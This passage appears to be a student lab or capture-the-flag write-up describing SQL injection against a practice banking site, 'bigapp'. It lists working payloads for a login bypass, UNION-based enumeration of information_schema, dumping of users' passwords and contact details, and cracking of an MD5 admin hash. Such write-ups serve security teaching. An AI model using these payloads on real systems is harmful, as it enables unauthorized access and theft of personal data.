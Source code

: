 ![Payportal's output from injection payload](https://i.imgur.com/qZzNurn.png) *Payportal's output from injection payload*

#### bigapp.quoccabank.com
Bigapp had a few SQLi vulnerabilties. The first one pertained to the login screen
- Feeding in a simple SQLi query for both the username and password grants access to Sally Rae's account`a' OR '1'='1' #A` A commented character at the end of the payload is needed to disregard the rest of the query.
![Sally Rae's login page](https://i.imgur.com/Xcv8pXN.png) *Sally Rae's login page*

The second vulnerability is pertinent to the ability to leak user data such as passwords.
- We start by logging in as any user and locating on the search bar on the top right.
- We must first find out the formatting required for the query to work. By incrementing the number of closing brackets in our SQL payload, we can discover what level of nesting the current query is on. For bigapp, 2 closing brackets are needed.
- We can also check the cardinality by adding constants until the SQL call is valid. Testing will reveal a cardinality of 6 columns.
- Knowing the previous attributes for cardinality and columns, we can create a payload. We start by trying to get a list of all tables `a' )) UNION SELECT 1, 2, 3, 4, 5, table_name FROM information_schema.tables; -- a`
- Next, we want to target the `users` table. We will dump all the column names of this table with `a' )) UNION SELECT table_name, column_name,1,2,3,4 FROM information_schema.columns WHERE table_name = 'users'; -- a`
- Once we get the column details, we can view the table's entries through ` a' )) UNION SELECT id, fname,lname,password,type,email FROM users; -- a`
- A perceptive attacker will notice that the passwords are hashed using MD5. However, using crackstation.net, one can reverse this MD5, provided it is a common password. Doing so for the admin account will give the password as `Admin@123`.
![Admin's login credential](https://i.imgur.com/DN7gijj.png) *Admin's login credential*



The next vulnerability is focused on sorting the main data-table.
- By sending this portion of SQL query `a')) union select * from bproducts order by pname -- a`, we can see the table sorted by `pname` product name instead.


Another vulnerability is related to the privileges available in the scope of the registration form.
- After first determining the format necessary for injection, we begin looking for table information from the information_schema using `a')) UNION SELECT table_name, column_name, 1, 1, 1, 1 FROM information_schema.columns -- a`.
- Observing the returned results, we can see that the users table exists and it has fields we can check using the following two lines:
```sql=
a')) UNION SELECT 1, id, fname, lname, type, userid FROM users -- a
a')) UNION SELECT 1, email, mobile, city, state, postcode FROM users -- a
```
- By logging out and returning to the registration page, we can use any browser's built-in inspection tools or any tool that can make HTTP requests to bypass the page's inbuilt format check with `email' OR '1'='1' #A` where `email` is an actual email or anything if you bypass the format check.
- This returns a page displaying all the emails in the database, exposing sensitive information to everyone.
![Page contains all the sensitive informations of the users.](https://i.imgur.com/Dvr9T5h.png) *Page contains all the sensitive informations of the users.*
